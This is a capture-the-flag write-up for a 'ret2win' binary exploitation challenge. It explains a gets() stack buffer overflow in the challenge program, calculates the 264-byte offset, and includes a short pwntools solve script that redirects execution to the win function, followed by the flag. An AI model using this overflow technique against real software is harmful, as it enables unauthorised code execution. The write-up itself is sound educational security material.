

# ret2win

## Challenge

`Author`: **godsword**

**Description**

> they say every ctf should have one of these

**Files**

- [main.c](./files/main.c)
- [out](./files/out)

## Writeup

This is a typical ret2win challenge, the goal is to redirect the execution of the program to the `win` function.

### Checksec

We can see that only NX is enabled (don't mind SHSTK && IBT for this challenge)


### Vulnerability

In the main function there is a call to `gets` with `buffer` as an argument which is a stack buffer, and it's quite well known that since gets doesn't check input lenght, a **Buffer Overflow** is present in this case.

### Exploitation

The exploitation vector is quite straightforward, since there is no `stack canary`, we just need to overwrite main function return address to the address of the function `win` which is directly know since `PIE` is disabled.  
So, we just need to calculate the padding to main's return address from `buffer`, which can be done using cyclic and breaking in main+82.  
We got the value: `264` which is pretty logical, `0x100=256` bytes for `buffer` and `8` bytes for `old rbp`.

```py
def main():
    global io
    io = conn()
    io.recvuntil("> ")

    # payload = cyclic(0x200)
    payload = flat(
        264*b'A',
        exe.sym["win"]+5
    )

    io.sendline(payload)

    io.interactive()
```

> **Note:** We are returning to `win+5` in order to avoid stack alignement problems (we are just skipping the push rbp instruction in win)

> solve script [here](./solve/solve.py)

## Flag

**`ingehack{it_all_started_like_this}`**
